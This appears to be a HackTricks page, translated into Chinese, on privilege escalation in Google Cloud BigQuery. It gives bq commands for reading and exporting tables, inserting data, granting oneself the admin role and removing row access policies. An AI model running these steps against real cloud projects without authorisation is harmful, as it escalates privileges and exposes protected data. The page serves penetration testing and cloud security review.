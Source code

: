 # GCP - BigQuery Privesc

{{#include ../../../banners/hacktricks-training.md}}

## BigQuery

有关 BigQuery 的更多信息，请查看：

{{#ref}}
../gcp-services/gcp-bigquery-enum.md
{{#endref}}

### 读取表

读取存储在 BigQuery 表中的信息可能会找到**敏感信息**。访问这些信息所需的权限是 **`bigquery.tables.get`** , **`bigquery.jobs.create`** 和 **`bigquery.tables.getData`**：
```bash
bq head <dataset>.<table>
bq query --nouse_legacy_sql 'SELECT * FROM `<proj>.<dataset>.<table-name>` LIMIT 1000'
```
### 导出数据

这是访问数据的另一种方式。**将其导出到云存储桶**，然后**下载包含信息的文件**。\
要执行此操作，需要以下权限：**`bigquery.tables.export`**，**`bigquery.jobs.create`** 和 **`storage.objects.create`**。
```bash
bq extract <dataset>.<table> "gs://<bucket>/table*.csv"
```
### 插入数据

可能可以在 Bigquery 表中**引入某些受信任的数据**以利用**其他地方的漏洞。** 这可以通过权限**`bigquery.tables.get`**、**`bigquery.tables.updateData`**和**`bigquery.jobs.create`**轻松完成：
```bash
# Via query
bq query --nouse_legacy_sql 'INSERT INTO `<proj>.<dataset>.<table-name>` (rank, refresh_date, dma_name, dma_id, term, week, score) VALUES (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2019-10-13", 62), (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2020-05-24", 67)'

# Via insert param
bq insert dataset.table /tmp/mydata.json
```
### `bigquery.datasets.setIamPolicy`

攻击者可以利用此权限**为自己提供更多权限**，以便对 BigQuery 数据集进行操作：
```bash
# For this you also need bigquery.tables.getIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>

# use the set-iam-policy if you don't have bigquery.tables.getIamPolicy
```
### `bigquery.datasets.update`, (`bigquery.datasets.get`)

仅此权限允许**通过修改指示谁可以访问的 ACL 来更新您对 BigQuery 数据集的访问权限**：
```bash
# Download current permissions, reqires bigquery.datasets.get
bq show --format=prettyjson <proj>:<dataset> > acl.json
## Give permissions to the desired user
bq update --source acl.json <proj>:<dataset>
## Read it with
bq head $PROJECT_ID:<dataset>.<table>
```
### `bigquery.tables.setIamPolicy`

攻击者可以滥用此权限来**为自己提供更多权限**，以便对 BigQuery 表进行操作：
```bash
# For this you also need bigquery.tables.setIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>.<table>

# use the set-iam-policy if you don't have bigquery.tables.setIamPolicy
```
### `bigquery.rowAccessPolicies.update`, `bigquery.rowAccessPolicies.setIamPolicy`, `bigquery.tables.getData`, `bigquery.jobs.create`

根据文档，拥有提到的权限可以**更新行策略。**\
然而，**使用cli `bq`** 你还需要一些额外的权限：**`bigquery.rowAccessPolicies.create`**，**`bigquery.tables.get`**。
```bash
bq query --nouse_legacy_sql 'CREATE OR REPLACE ROW ACCESS POLICY <filter_id> ON `<proj>.<dataset-name>.<table-name>` GRANT TO ("<user:user@email.xyz>") FILTER USING (term = "Cfba");' # A example filter was used
```
可以在行策略枚举的输出中找到过滤器 ID。示例：
```bash
bq ls --row_access_policies <proj>:<dataset>.<table>

Id        Filter Predicate            Grantees              Creation Time    Last Modified Time
------------- ------------------ ----------------------------- ----------------- --------------------
apac_filter   term = "Cfba"      user:asd@hacktricks.xyz   21 Jan 23:32:09   21 Jan 23:32:09
```
如果你有 **`bigquery.rowAccessPolicies.delete`** 而不是 `bigquery.rowAccessPolicies.update`，你也可以直接删除该策略：
```bash
# Remove one
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICY <policy_id> ON `<proj>.<dataset-name>.<table-name>`;'

# Remove all (if it's the last row policy you need to use this
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICIES ON `<proj>.<dataset-name>.<table-name>`;'
```
> [!CAUTION]
> 另一个绕过行访问策略的潜在选项是仅更改受限数据的值。如果您只能在 `term` 为 `Cfba` 时查看，则只需将表中的所有记录修改为 `term = "Cfba"`。但是，这被 bigquery 阻止了。

{{#include ../../../banners/hacktricks-training.md}}
